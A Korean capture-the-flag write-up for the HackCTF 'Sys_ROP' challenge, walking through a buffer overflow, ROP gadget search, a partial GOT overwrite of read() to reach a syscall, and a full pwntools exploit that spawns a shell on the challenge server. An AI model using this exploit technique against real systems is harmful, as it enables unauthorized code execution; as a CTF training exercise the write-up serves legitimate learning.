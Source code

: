 # Sys_ROP

---

우선 보호기법은 다음과 같다.

```gdb
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

`main()`의 코드를 살펴보자.
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char buf; // [rsp+0h] [rbp-10h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  read(0, &buf, 0x78uLL);
  return 0LL;
}
```

read에서 bof 취약점이 발생한다. ROP문제가 되겟다. 하지만 이 `main()`함수 외에 다른 특별한 함수는 보이지 않는다. `read()`함수와 기존에 있던 코드를 잘 이용하는 것이 관건이 되겠다.

우선 libc.so.6파일을 주었기 때문에 `system()`의 offset과 "/bin/sh" 문자열의 offset을 알 수 있다. 하지만 이를 이용하려면 libc\_base의 주소를 구해야 하지만 출력을 할 함수가 없다. 때문에 libc\_base를 lick하는 것은 불가능하다.

우선 다음 코드를 이용하면 원하는 공간에 원하는 값을 쓸 수 있다는 것을 알 수 있다.

```gdb
gdb-peda$ x/8i 0x400636
   0x400636:	lea    rax,[rbp-0x10]
   0x40063a:	mov    edx,0x78
   0x40063f:	mov    rsi,rax
   0x400642:	mov    edi,0x0
   0x400647:	call   0x4004b0 < read@plt>
   0x40064c:	mov    eax,0x0
   0x400651:	leave  
   0x400652:	ret    
gdb-peda$ ropsearch "pop rbp; ret"
Searching for ROP gadget: 'pop rbp; ret' in: binary ranges
0x00400550 : (b'5dc3')	pop rbp; ret
0x00400598 : (b'5dc3')	pop rbp; ret
0x004005f0 : (b'5dc3')	pop rbp; ret
```

pop rbp; ret을 통해서 rbp에 원하는 주소+0x10을 넣은 다음 0x400636d으로 ret시키면 해당 원하는 주소에 0x78bytes만큼 stdin으로 입력을 할 수 있다. 이를 통해서 bss영역에 "/bin/sh" 문자열을 쓸 수도 있을 것이다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/25.Sys_ROP$ ROPgadget --binary sysrop | grep "pop"
...
0x00000000004005ea : pop rax ; pop rdx ; pop rdi ; pop rsi ; ret
...
0x00000000004005ec : pop rdi ; pop rsi ; ret
0x00000000004006c3 : pop rdi ; ret
0x00000000004005eb : pop rdx ; pop rdi ; pop rsi ; ret
...
```

또한 다음을 이용하면 3번째 매개변수 까지를 조작할 수 있다.

이제 문제는 `system()`을 어떻게 호출하느냐이다.

바이너리 안에서는 `system()`을 호출하는 방법을 찾지 못해서 `read()`안에 있는 syscall을 사용하기로 했다.

```gdb
gdb-peda$ pd read
Dump of assembler code for function read:
   0x00007ffff7b04250 <+0>:	cmp    DWORD PTR [rip+0x2d24e9],0x0        # 0x7ffff7dd6740 <__libc_multiple_threads>
   0x00007ffff7b04257 <+7>:	jne    0x7ffff7b04269 <read+25>
   0x00007ffff7b04259 <+0>:	mov    eax,0x0
   0x00007ffff7b0425e <+5>:	syscall 
...   
End of assembler dump.
```

이 syscall을 사용하기 위해서는 `read()`의 하위 1bytes를 5e로 overwrite해야한다.

따라서 익스방법은 다음과 같다.

(1) pop rdx; pop rdi; pop rsi; ret과 read@plt를 통해서 bss영역에 "/bin/sh"를 쓴다.

(2) 다시 pop rdx; pop rdi; pop rsi; ret과 read@plt를 통해서 read@got의 하위 1bytes를 5e로 overwrite한다.

(3) 이번에는 pop rax; pop rdx; pop rdi; pop rsi; ret과 read@plt를 통해서 syscall을 실행하여 execve('/bin/sh')를 실행한다.

이를 한번의 payload에 담기에는 길이가 부족하기 때문에 (1)이후에 다시 `main()`으로 ret시킨 후 (2)와 (3)을 진행하도록 하겠다.

이를 위해서 필요한 정보는 다음과 같다.

**pppr <br>
ppppr <br>
read\_plt <br>
bss <br>
read\_got <br>
main**

pppr, ppppr, read\_plt, main의 주소는 위에서 구하였다.

**pppr=0x4005eb <br>
ppppr=0x4005ea <br>
read\_plt=0x4004b0 <br>
main=0x4005f2**

bss주소는 다음과 같다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/25.Sys_ROP$ objdump -h sysrop | grep "bss"
 25 .bss          00000020  0000000000601040  0000000000601040  00001040  2**4

```

**bss=0x601040**

read\_got주소는 다음과 같다.
```gdb
gdb-peda$ got

/home/sjy0175/Desktop/HackCTF/Pwnable/25.Sys_ROP/sysrop:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
...
0000000000601018 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
...
```

**read\_got=0x601018**

다음과 같은 익스코드를 짯다.
```python
from pwn import*

#p=process('./sysrop')
p=remote('ctf.j0n9hyun.xyz', 3024)

pppr=0x4005eb
ppppr=0x4005ea
read_plt=0x4004b0
bss=0x601030
read_got=0x601018
main=0x4005f2

payload='A'*24

payload+=p64(pppr)
payload+=p64(8)
payload+=p64(0)
payload+=p64(bss)
payload+=p64(read_plt)
payload+=p64(main)

p.sendline(payload)
sleep(0.1)
p.send('/bin/sh\x00')
sleep(0.1)
payload2='A'*24
payload2+=p64(pppr)
payload2+=p64(1)
payload2+=p64(0)
payload2+=p64(read_got)
payload2+=p64(read_plt)


payload2+=p64(ppppr)
payload2+=p64(0x3b)
payload2+=p64(0)
payload2+=p64(bss)
payload2+=p64(0)
payload2+=p64(read_plt)


p.sendline(payload2)
sleep(0.1)
p.sendline("\x5e")

p.interactive()
```

하지만 이렇게 하니 오류가 났다. 알고보니 이 bss영역은 이미 stdout이 쓰고있기 때문이었다. 때문에 이 bss(0x60100)을 data(0x601030)으로 바꾸었더니 성공적으로 flag를 얻을 수 있었다.

flag는 다음과 같다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/25.Sys_ROP$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3024: Done
[*] Switching to interactive mode
$ cat flag
HackCTF{D0_y0u_Kn0w_sysc411?}
```

**flag: HackCTF{D0_y0u_Kn0w_sysc411?}**
